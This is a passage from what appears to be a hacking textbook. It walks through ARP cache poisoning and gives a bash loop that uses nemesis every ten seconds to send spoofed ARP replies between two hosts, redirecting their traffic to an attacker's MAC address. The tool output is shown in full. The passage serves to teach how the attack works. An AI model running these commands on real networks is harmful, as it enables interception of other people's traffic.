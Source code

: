 Wrote 42 byte unicast ARP request packet through linktype DLT_EN10MB.

ARP Packet Injected
reader@hacking:~/booksrc $
</pre>

These two commands spoof ARP replies from _192.168.0.1_ to _192.168.0.118_ and vice versa, both claiming that their MAC address is at the attacker’s MAC address of _00:00:AD:D1:C7:ED_. If these commands are repeated every _10 seconds_, these bogus ARP replies will continue to keep the ARP caches poisoned and the traffic redirected. The standard `BASH` shell allows commands to be scripted, using familiar control flow statements. A simple _BASH shell_ while loop is used below to loop forever, sending our two poisoning _ARP replies_ every _10 seconds_.

<pre style="color: white;">
reader@hacking:~/booksrc $ while true
> do
> sudo nemesis arp -v -r -d eth0 -S 192.168.0.1 -D 192.168.0.118 -h
00:00:AD:D1:C7:ED -m 00:C0:F0:79:3D:30 -H 00:00:AD:D1:C7:ED -M
00:C0:F0:79:3D:30
> sudo nemesis arp -v -r -d eth0 -S 192.168.0.118 -D 192.168.0.1 -h
00:00:AD:D1:C7:ED -m 00:50:18:00:0F:01 -H 00:00:AD:D1:C7:ED -M
00:50:18:00:0F:01
> echo "Redirecting..."
> sleep 10
> done

ARP/RARP Packet Injection -=- The NEMESIS Project Version 1.4 (Build 26)

               [MAC] 00:00:AD:D1:C7:ED > 00:C0:F0:79:3D:30
     [Ethernet type] ARP (0x0806)

  [Protocol addr:IP] 192.168.0.1 > 192.168.0.118
 [Hardware addr:MAC] 00:00:AD:D1:C7:ED > 00:C0:F0:79:3D:30
        [ARP opcode] Reply
  [ARP hardware fmt] Ethernet (1)
  [ARP proto format] IP (0x0800)
  [ARP protocol len] 6
  [ARP hardware len] 4
Wrote 42 byte unicast ARP request packet through linktype DLT_EN10MB.

ARP Packet Injected

ARP/RARP Packet Injection -=- The NEMESIS Project Version 1.4 (Build 26)

               [MAC] 00:00:AD:D1:C7:ED > 00:50:18:00:0F:01
     [Ethernet type] ARP (0x0806)
  
  [Protocol addr:IP] 192.168.0.118 > 192.168.0.1
 [Hardware addr:MAC] 00:00:AD:D1:C7:ED > 00:50:18:00:0F:01
        [ARP opcode] Reply
  [ARP hardware fmt] Ethernet (1)
  [ARP proto format] IP (0x0800)
  [ARP protocol len] 6
  [ARP hardware len] 4
Wrote 42 byte unicast ARP request packet through linktype DLT_EN10MB.
ARP Packet Injected
Redirecting...
</pre>
